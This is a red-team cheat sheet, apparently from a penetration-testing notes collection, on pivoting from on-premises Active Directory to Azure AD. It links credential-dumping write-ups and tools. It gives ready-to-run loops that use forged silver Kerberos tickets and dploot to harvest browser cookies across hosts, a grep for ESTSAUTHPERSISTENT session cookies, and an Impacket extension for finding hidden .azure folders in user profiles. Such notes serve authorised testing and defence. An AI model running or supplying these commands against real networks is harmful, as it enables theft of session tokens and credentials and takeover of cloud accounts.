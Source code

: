 # On-Prem → Cloud

- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/](https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/)
- [https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/](https://nullg0re.com/2024/05/cracking-zero-trust-on-prem-to-azure-pivots-with-responder-and-evilginx2/)




## Dumping AAD Connect Creds

- [https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)
- [https://aadinternals.com/post/adsync/](https://aadinternals.com/post/adsync/)
- [https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729](https://imphash.medium.com/shooting-up-on-prem-to-cloud-detecting-aadconnect-creds-dump-422b21128729)
- [https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/](https://rioasmara.com/2020/07/07/azure-ad-connect-post-exploitation-for-dcsync/)
- [[PDF] Hacking Azure AD via Active Directory (Dirk-jan Mollema, @_dirkjan)](https://dirkjanm.io/assets/raw/TR19-Im%20in%20your%20cloud.pdf)



### Tools

- [https://github.com/dirkjanm/adconnectdump](https://github.com/dirkjanm/adconnectdump)
- [https://github.com/Hagrid29/DumpAADSyncCreds](https://github.com/Hagrid29/DumpAADSyncCreds)




## Mass Cookies Harvesting

Collect with [dploot](https://github.com/zblurx/dploot):

```
$ ls silver_tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ for st in `ls silver_tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="silver_tickets/$st" proxychains4 dploot browser -d megacorp.local -no-pass -use-kcache "$comp.megacorp.local" -pvk ../key.pvk -show-cookies > "browsers_$comp.out"; done
```

Search for `ESTSAUTHPERSISTENT` cookies:

```
$ grep -nr --include '*.out' ESTSAUTHPERSISTENT -A3 | grep -e Creation -e Expires
```




## Mass Hidden Directories Searching

Impacket's **smbclient.py** extension (searches for hidden directories in every user's home):

```python
def do_hidden(self, args=None):
    hidden = []
    for item1 in self.smb.listPath(self.share, '\\Users\\*'):
        longname1 = item1.get_longname()
        if item1.is_directory() and longname1 not in ('.', '..'):
            dir0 = ntpath.join('\\Users', longname1)
            try:
                ls = self.smb.listPath(self.share, ntpath.join(dir0, '*'))
            except:
                continue
            else:
                for item2 in ls:
                    longname2 = item2.get_longname()
                    if item2.is_directory() and longname2 not in ('.', '..') and longname2.startswith('.'):
                        hidden.append((item2, ntpath.join(dir0, longname2)))
    result = ''
    for item, name in hidden:
        result += 'drw-rw-rw- '
        result += f'{datetime.fromtimestamp(item.get_mtime_epoch()).strftime("%Y/%m/%d %H:%M:%S"):>21} '
        result += '  '
        result += name
        result += '\n'
    print(result.strip())
```

Collect hidden directories:

```
$ ls silver_tickets/
SRV01.ccache   SRV02.ccache   PC01.ccache
$ echo 'use c$\nhidden' > cmd
$ for st in `ls silver_tickets/`; do comp=`basename $st .ccache`; KRB5CCNAME="silver_tickets/$st" proxychains4 smbclient.py -k -no-pass "$comp.megacorp.local" -inputfile cmd -outputfile "hidden_$comp.out"; done
```

Search for hidden directories that start with `.az`:

```
$ grep -nr --include '*.out' '\Users' | grep -i '\.Az'
```
